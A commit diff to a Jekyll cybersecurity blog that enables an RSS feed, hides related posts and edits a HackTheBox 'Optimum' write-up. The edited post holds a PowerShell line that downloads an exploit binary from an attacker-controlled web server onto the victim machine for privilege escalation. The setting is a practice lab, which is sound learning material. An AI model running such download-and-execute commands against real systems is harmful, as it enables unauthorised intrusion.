

Before and after one commit to efriel94/ef_blog, a Jekyll site: the page built from _posts/HackTheBox/2020-04-07-hackthebox-optimum.md, in a window 1280 px wide and 900 px high, scrolled down 479 px. Shown: the whole window, without its empty margins (248-1031 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Edited Optimum htb and changed favicon.ico

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -27,5 +27,5 @@ description:	       'cyber security blog'
 author:              'Emmet Friel'
 
 # RSS 2.0 can be used instead of Atom by uncommenting following two lines
-#feed:
-#  path: rss-feed.xml
+feed:
+  path: rss-feed.xml
--- a/_data/settings.yml
+++ b/_data/settings.yml
@@ -28,6 +28,6 @@ pagination:
 
 sharing_button_prompt: 'Feel free to share!'
 
-related_posts: 'You may also enjoy:'
+#related_posts: 'You may also enjoy:'
 
 post_date_prefix: 'Written on'
--- a/_posts/HackTheBox/2020-04-07-hackthebox-optimum.md
+++ b/_posts/HackTheBox/2020-04-07-hackthebox-optimum.md
@@ -8,7 +8,7 @@ image: htb/optimum/optimum.png
 
 # Introduction
 
-This box was interesting in the sense it really honed in on the importance of enumeration, gave me a solid foundation on windows privilege escalation that I can refer back to and that you can’t rely on the exploit tools to do all the work for you! Lets get started.
+This box was interesting and a pain, it took me longer than it should have but it gave me a solid foundation on windows privilege escalation that I can refer back to and that you can’t rely on the exploit tools to do all the work for you! Lets get started.
 
 # Reconnaissance & Enumeration
 
@@ -139,7 +139,7 @@ After trial and error, MS16-098 got me that nice root shell :)
 I placed the exploit on the python webserver, downloaded it from the victims machine and then executed it.
 
 ```windows
-C:\Users\kostas\Desktop>powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://10.X.X.X/bfill.exe','C:\Users\kostas\Desktop\exploit.exe')
+C:\Users\kostas\Desktop>powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://10.X.X.X/bfill.exe','C:\Users\kostas\Desktop\exploit.exe')"
 ```
 
 ```windows
````
Also changed, not shown: favicon.ico, original_favicon.ico (added).
